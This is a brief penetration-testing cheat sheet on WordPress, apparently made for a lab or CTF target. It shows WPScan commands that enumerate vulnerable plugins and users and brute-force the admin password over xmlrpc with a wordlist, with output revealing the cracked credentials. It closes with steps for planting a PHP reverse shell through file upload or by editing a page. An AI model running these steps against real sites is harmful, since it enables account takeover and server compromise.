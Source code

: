 # Wordpress

# WPScan

```console
$ wpscan --url http://10.10.241.28/blog/ -e vp,u

-e
    vp
    u
```

Bruteforce Password if username found:

```console
$ wpscan --url http://10.10.241.28/blog/ --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                    
Trying admin / nguyen Time: 00:00:49 <                > (3900 / 14348292)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

## PHP reverse shell

- Try to upload a php reverse shell with file manager
- Change a .php page with revershell code and call the page
